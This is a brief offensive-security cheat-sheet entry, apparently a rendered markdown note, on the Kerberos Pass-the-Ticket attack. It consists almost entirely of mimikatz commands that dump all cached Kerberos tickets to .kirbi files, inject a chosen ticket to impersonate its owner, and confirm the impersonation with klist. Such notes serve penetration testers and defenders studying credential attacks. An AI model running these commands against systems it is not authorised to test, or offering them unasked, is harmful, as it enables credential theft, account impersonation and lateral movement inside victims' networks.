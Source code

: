# Pass The Ticket

#### Pass The ticket

* Export all the tickets into **`.kirbi`** files in the current directory:

```
mimikatz # sekurlsa::tickets /export
```

* Impersonate a given ticket:

```
mimikatz # kerberos::ptt <ticket>
```

* Verify with `klist` (or with `kerberos::list` within `mimikatz`) that we successfully impersonated the ticket by listing our cached tickets.
